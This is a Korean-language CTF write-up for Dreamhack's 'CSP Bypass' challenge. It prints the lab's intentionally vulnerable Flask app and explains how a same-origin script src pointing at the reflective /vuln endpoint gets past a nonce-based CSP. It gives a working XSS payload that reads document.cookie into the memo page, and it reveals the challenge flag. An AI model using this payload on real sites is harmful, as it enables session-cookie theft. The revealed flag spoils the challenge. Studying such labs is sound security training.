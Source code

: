 https://honey-push-30b.notion.site/CSP-Bypass-d43f4674d9374ce5bfc6e4579200ab69
# 문제파일 다운로드

![문제파일 다운로드.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/be9c0791-f58a-4f82-8cf3-4f10273ed8ab/%EB%AC%B8%EC%A0%9C%ED%8C%8C%EC%9D%BC_%EB%8B%A4%EC%9A%B4%EB%A1%9C%EB%93%9C.png)

CSP Bypass 문제파일을 다운로드 받으면 [app.py](http://app.py) 파일을 받을 수 있는데 이 파일의 코드는XSS-1문제에서 CSP 조건만 추가된 문제로 원래는 CSP정책에 추가로 XSS 필터링이 있어야 안전하지만 XSS 필터링이 존재하지 않으므로 CSP 정책만 우회하는 방법을 생각하면 된다. 

```python
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)
nonce = os.urandom(16).hex()

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"

def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome("/chromedriver", options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True

def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)

@app.after_request
def add_header(response):
    global nonce
    response.headers[
        "Content-Security-Policy"
    ] = f"default-src 'self'; img-src https://dreamhack.io; style-src 'self' 'unsafe-inline'; script-src 'self' 'nonce-{nonce}'"
    nonce = os.urandom(16).hex()
    return response

@app.route("/")
def index():
    return render_template("index.html", nonce=nonce)

@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return param

@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html", nonce=nonce)
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return f'<script nonce={nonce}>alert("wrong??");history.go(-1);</script>'

        return f'<script nonce={nonce}>alert("good");history.go(-1);</script>'

memo_text = ""

@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text, nonce=nonce)

app.run(host="0.0.0.0", port=8000)
```

여전히 vuln페이지는 입력한 param값을 그대로 반환해주기 때문에 스크립트를 전달하면 그대로 실행해주는 취약점을 가지고 있고 flag 페이지를 이용하여 vuln페이지에 스크립트를 주입하여 read_flag 함수를 거쳐 cookie 값을 알아내면 된다.

# 문제 풀이

```python
@app.after_request
def add_header(response):
    global nonce
    response.headers[		 	
        "Content-Security-Policy"
    ] = f"default-src 'self'; img-src https://dreamhack.io; style-src 'self' 'unsafe-inline'; script-src 'self' 'nonce-{nonce}'"
    nonce = os.urandom(16).hex()
    return response
```

img의 경우 dreamhack.io로 고정이 되어있으므로 img 태그를 쓸 수 없고 무작위로 생성되는 nonce값으로 인해 외부에서 주입하기 힘들다.

따라서 script태그의 src를 vuln 페이지에서 접근하여 self를 위반하지 않는 같은 오리진에서 접근하며 스크립트를 로드해야한다.

이 때 같은 오리진은

그래서 <script src=”/vuln?param=location.href=’/memo?memo=’%2bdocument.cookie”></script>로 작성해주어야한다. 

script의 src 속성은 외부 스크립트 파일의 URL을 명시하고 가져온다.

![exploit.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e8f08c84-8891-4b6c-af5d-2a8ebc4ca437/exploit.png)

즉 vuln페이지에 param으로 location.href=’/memo?memo=’%2bdocument.cookie를 넣어준 결과 값인 vuln페이지의 응답값을 로드한다. 이 때 script의 src로 접근한 페이지는 /vuln페이지로 같은 출처이고 %2b로 넣어준 것은 스크립트 부분은 두 단계를 거쳐 파라미터로 해석되므로 URL Decoding이 되어 공백으로 되지 않도록 해준 것이다.

![flag.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/0237904a-b2ac-42dd-bf0d-2da99760c444/flag.png)

`flag=DH{81e64da19119756d725a33889ec3909c}`가 나온것을 볼 수 있다.
